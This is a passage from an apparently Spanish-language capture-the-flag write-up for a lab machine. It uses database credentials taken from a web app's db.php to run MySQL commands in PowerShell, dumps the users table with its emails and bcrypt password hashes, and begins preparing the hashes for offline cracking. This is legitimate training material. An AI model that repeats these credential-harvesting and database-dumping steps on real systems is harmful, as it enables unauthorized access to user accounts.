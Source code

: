Si inspeccionamos el contenido del archivo `db.php`, veremos las credenciales para conectarse a la base de datos.


## Database Enumeration

Recordemos que en un entorno `xampp`, el motor de base de datos utilizado por defecto es `MySQL`. El binario para ejecutar `mysql` se debería encontrar dentro de `C:\xampp\mysql\bin\mysql.exe`

Comenzaremos enumerando las bases de datos existentes (nota como ejecuto las queries en el parámetro `-e`)

~~~ powershell
PS C:\xampp\mysql\bin> .\mysql.exe -h 127.0.0.1 -u 'certificate_webapp_user' -p'cert!f!c@teDBPWD' -e 'show databases;'
Database
certificate_webapp_db
information_schema
test
~~~

Mostraremos las tablas para la base de datos `certificate_webapp_db`, dando uso a la base de datos en la misma línea separado de un `;`

~~~ powershell
PS C:\xampp\mysql\bin> .\mysql.exe -h 127.0.0.1 -u 'certificate_webapp_user' -p'cert!f!c@teDBPWD' -e 'use certificate_webapp_db; show tables'
Tables_in_certificate_webapp_db
course_sessions
courses
users
users_courses
~~~

Consultaremos los datos de la tabla `users`, además de aplicar un filtro que puede ser útil para no ver la cuenta que hemos creado, utilizando un `|` seguido de `findstr`, buscando como si fuera `grep` 

~~~ powershell
PS C:\xampp\mysql\bin> .\mysql.exe -h 127.0.0.1 -u 'certificate_webapp_user' -p'cert!f!c@teDBPWD' -e 'use certificate_webapp_db; select * from users' | findstr certificate.htb

1	Lorra	Armessa	Lorra.AAA	lorra.aaa@certificate.htb	$2y$04$bZs2FUjVRiFswY84CUR8ve02ymuiy0QD23XOKFuT6IM2sBbgQvEFG	2024-12-23 12:43:10	teacher	1
10	Sara	Brawn	sara.b	sara.b@certificate.htb	$2y$04$CgDe/Thzw/Em/M4SkmXNbu0YdFo6uUs3nB.pzQPV.g8UdXikZNdH6	2024-12-25 21:31:26	admin	1
~~~


## Hash Cracking

Opcionalmente, podemos realizar un pequeño tratamiento de los datos extraídos, con el propósito de extraer los hashes para intentar descifrarlos de forma offline.

Simplemente cambiando un caracter y luego filtrando por campos específicos obtendremos una lista de `2` hashes para intentar crackear
